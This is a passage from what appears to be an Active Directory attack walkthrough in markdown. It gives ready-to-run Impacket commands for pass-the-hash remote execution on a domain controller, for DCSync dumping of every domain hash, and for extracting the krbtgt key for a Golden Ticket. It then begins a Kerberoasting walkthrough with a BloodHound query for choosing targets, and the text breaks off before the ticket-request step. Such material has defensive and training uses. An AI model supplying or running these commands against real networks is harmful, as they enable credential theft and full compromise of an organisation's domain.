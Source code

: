 From Linux:
```bash
# Pass-the-Hash to DC:
psexec.py -hashes ':8846f7eaee8fb117ad06bdd830b7586c' 'corp/DA-Admin@DC01.corp.local'

# OR with password:
psexec.py 'corp/DA-Admin:SuperSecretDAPassword123!@DC01.corp.local'

# DCSync attack (dump all hashes):
secretsdump.py 'corp/DA-Admin@DC01.corp.local' -hashes ':8846f7eaee8fb117ad06bdd830b7586c' -just-dc

# Extract krbtgt for Golden Ticket:
secretsdump.py 'corp/DA-Admin@DC01.corp.local' -hashes ':8846f7eaee8fb117ad06bdd830b7586c' -just-dc-user krbtgt
```

**✓✓✓ RESULT: DOMAIN ADMIN ACHIEVED ✓✓✓**

---

## Exploitation Walkthroughs

### Walkthrough 1: Kerberoasting Attack

**Pre-requisite:** BloodHound identified Kerberoastable accounts

#### Step 1: Identify Targets in BloodHound

```cypher
MATCH (u:User {hasspn:true})
WHERE u.enabled = true
  AND NOT u.name STARTS WITH 'KRBTGT'
RETURN u.name, u.serviceprincipalnames, u.pwdlastset
ORDER BY u.pwdlastset ASC
```

**Example Result:**
```
| Name | SPN | Password Last Set |
|------|-----|-------------------|
| SQLSERVICE@CORP.LOCAL | MSSQLSvc/SQL01:1433 | 2020-03-15 (5 years old!) |
| WEBSERVICE@CORP.LOCAL | HTTP/web01 | 2023-06-20 |
| BACKUPSERVICE@CORP.LOCAL | backupexec/backup01 | 2024-01-10 |
```

**Target:** SQLSERVICE (oldest password)

#### Step 2: Check Target Privileges

Click on SQLSERVICE@CORP.LOCAL node:
- Check "Local Admin Rights" tab → Admin on SQL01, SQL02, SQL03
- Check "Group Membership" tab → Member of "Database-Admins"
- **Assessment:** High-value target!

#### Step 3: Request Service Ticket (Kerberoast)

